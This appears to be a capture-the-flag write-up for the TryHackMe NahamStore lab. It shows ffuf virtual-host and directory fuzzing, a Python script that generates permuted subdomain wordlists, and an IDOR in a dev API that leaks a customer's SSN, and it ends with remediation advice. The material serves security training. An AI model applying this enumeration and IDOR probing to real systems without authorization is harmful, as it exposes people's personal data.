






# NahamStore | Task 3 | TryHackMe
# Description
Using a combination of subdomain enumeration, brute force, content discovery and fuzzing find all the subdomains you can and answer the below questions.

Answer the questions below
Jimmy Jones SSN

## Analysis

After connecting to VPN and launching the machine we get the following website:


In this task, description says we need to use subdomain enumeration and find the flag. The first thing that came to my mind was to use `ffuf`:
```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://nahamstore.thm/ \
-H "Host: FUZZ.nahamstore.thm" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \ 
-fw 125

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nahamstore.thm/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.nahamstore.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 125
________________________________________________

www                     [Status: 301, Size: 194, Words: 7, Lines: 8, Duration: 95ms]
shop                    [Status: 301, Size: 194, Words: 7, Lines: 8, Duration: 99ms]
marketing               [Status: 200, Size: 2025, Words: 692, Lines: 42, Duration: 121ms]
stock                   [Status: 200, Size: 67, Words: 1, Lines: 1, Duration: 116ms]
:: Progress: [4989/4989] :: Job [1/1] :: 417 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

As you can see we got 4 new domains: `www`, `shop`, `marketing`, and `stock`. After analyzing each of these domains, only `stock` domain looked interesting:


As you can see, `stock` is an endpoint and has `/product` content. I moved to it and found this:


From this point I could not find anything. I spent hours on fuzzing found domains and their endpoints and got nothing. Then I peeked at some write-up and saw that the domain we needed was "nahamstore-2020-dev.nahamstore.thm". I have no idea how to come up with this, probably instructor mentioned something about this in his course. So I could not let it just be like this and scripted a python code that will generate domains like this. I did it so we can use this script in the future to create our custom advanced domain names for cases like this:
```python
from itertools import product, permutations

def load_file(filename):
    with open(filename, "r") as f:
        return [line.strip() for line in f if line.strip()]

names = load_file("names.txt")
envs = load_file("envs.txt")
years = load_file("years.txt")

output = set()

# Combine all lists into one big pool
all_words = [names, envs, years]

# Cartesian product
for combo in product(*all_words):
    # All order variations
    for perm in permutations(combo):
        output.add("-".join(perm))

# Write results
with open("generated.txt", "w") as f:
    for domain in sorted(output):
        f.write(domain + "\n")

print(f"[+] Generated {len(output)} unique domain variations.")
```
To make this code, we need to have three files: `names.txt`, `envs.txt`, and `years.txt`. These files will have the names (nahamstore), years, and environments (dev, marketing, shop, etc) given by us. After reading these files, this python code will generate all possible variations of subdomains and echo them to `generated.txt` file. After getting this file we can use `ffuf` with our custom generated subdomain list:
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 generator.py
[+] Generated 4032 unique domain variations.
```
My custom `.txt` files generated me 4032 unique subdomains. I uploaded them if you are interested, but they generally have years from 1999-2026, nahamstore, shop, etc. in names. `env.txt` has entries like `dev`, `test`, etc.After generating this custom subdomain list we can start fuzzing:
```python
┌──(kali㉿kali)-[~/Desktop]
└─$ ffuf -u http://nahamstore.thm/ \
-H "Host: FUZZ.nahamstore.thm" \
-w ~/Desktop/generated.txt \
-fw 125

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nahamstore.thm/
 :: Wordlist         : FUZZ: /home/kali/Desktop/generated.txt
 :: Header           : Host: FUZZ.nahamstore.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 125
________________________________________________

nahamstore-2020-dev     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 94ms]
:: Progress: [4032/4032] :: Job [1/1] :: 407 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
```
As you can see our custom subdomain generator works.

## Solution

Moving to `nahamstore-2020-dev.nahamstore.thm` gave us empty page. Inspection also did not help. That is when I started to fuzz this webpage for files and directories:
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ffuf -u http://nahamstore-2020-dev.nahamstore.thm/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nahamstore-2020-dev.nahamstore.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

api                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 93ms]
:: Progress: [4750/4750] :: Job [1/1] :: 423 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

We found `api`!! This is promising. After moving to `http://nahamstore-2020-dev.nahamstore.thm/api/` we got the following:


Tried to find something here, but couldn't. So I decided to fuzz this url too:
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ffuf -u http://nahamstore-2020-dev.nahamstore.thm/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nahamstore-2020-dev.nahamstore.thm/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

customers               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 96ms]
:: Progress: [4750/4750] :: Job [1/1] :: 421 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```
We found another endpoint! Using this endpoint gave us this:


As you can see this API says that we are missing `customer_id`. I tried to use 1 as `customer_id` and it worked!. We just found **IDOR** (Insecure Direct Object Reference)!

## Answer

The final subdomain is `http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=X`. After enumerating we find the customer that we need: Jimmy Jones:


As you can see we found the **SSN** (Social Security Number) of Jimmy, which is also the flag for this CTF!

## Remediation
To prevent leaking sensitive data you should:
* Require authentication (JWT / session tokens)
* Implement authorization checks per user
* Validate access permissions server-side
* Avoid exposing sensitive fields like SSN
* Apply rate limiting
* Remove dev environments from production DNS
